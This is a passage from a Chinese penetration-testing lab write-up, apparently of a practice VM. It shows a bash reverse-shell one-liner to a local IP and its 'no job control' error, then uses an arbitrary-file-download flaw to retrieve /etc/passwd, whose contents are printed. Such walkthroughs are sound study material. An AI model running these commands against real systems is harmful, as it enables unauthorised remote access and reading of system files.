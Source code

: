 很轻松就拿到了 `root` 权限。



上面留下了一个问题待解决，反弹 `shell` 的时候，这台机器出现了一个很神奇的地方。

```sh
bash -i &> /dev/tcp/192.168.248.163/4444 1>&0 | echo "123456"
```

这里通过 bash 直接反弹 shell 会出现一个报错：

```sh
bash: no job control in this shell
```

暂时先留一个坑在这里，以后在解决。



## 0x42 第二种思路



### 0x421 任意文件下载

这里可以通过 `任意文件下载` 将 `/etc/passwd` 下载。

`passwd` :

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:103:106::/var/run/dbus:/bin/false
whoopsie:x:104:107::/nonexistent:/bin/false
landscape:x:105:110::/var/lib/landscape:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
ica:x:1000:1000:ica,,,:/home/ica:/bin/bash
```
